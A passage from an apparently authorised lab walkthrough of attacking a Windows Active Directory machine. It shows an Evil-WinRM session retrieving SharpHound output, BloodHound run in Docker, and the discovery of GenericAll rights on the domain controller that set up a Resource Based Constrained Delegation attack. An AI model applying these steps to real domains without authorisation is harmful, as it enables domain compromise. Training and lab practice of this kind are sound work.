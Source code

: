A zip file was created with the information collected by `SharpHound.exe`. Let's download it to our Kali host.

```
*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> ls


    Directory: C:\Users\L.Livingstone\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/10/2022  12:08 PM           9343 20220110120802_BloodHound.zip
-a----        1/10/2022  12:08 PM          11781 N2NkZDYyMzItY2UxZi00N2ZkLTg4ZmQtNThlNjJlZDQ1NzJh.bin
-a----        1/10/2022  12:06 PM         833024 SharpHound.exe


*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> download 20220110120802_BloodHound.zip
Info: Downloading 20220110120802_BloodHound.zip to ./20220110120802_BloodHound.zip

                                                             
Info: Download successful!
```

Let's import this zip file into `Bloodhound`. We can quickly start up `Bloodhound` by using `Docker`.

```
┌──(kali㉿kali)-[~]
└─$ sudo docker run -it \    
  -p 7474:7474 \
  -e DISPLAY=unix$DISPLAY \
  -v /tmp/.X11-unix:/tmp/.X11-unix \
  --device=/dev/dri:/dev/dri \
  -v ~/Desktop/bloodhound/data:/data \
  --name bloodhound belane/bloodhound
```

In the `Bloodhound` window, select "Upload Data" from the menu on the right and navigate to the zip file we downloaded from the target.

With our data imported, we can enumerate over the information, looking for anything we can use to elevate our access. Looking through the user domain permissions, we discover that `L.Livingstone` has "GenericAll" privilege on the domain controller.

![Bloodhound screen](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG-Practice_93_image_1_nwIBqy5f.png)

Bloodhound screen

We may be able to abuse a Resource Based Constrained Delegation and gain full privileges over the domain controller.

### Resource Based Constrained Delegation
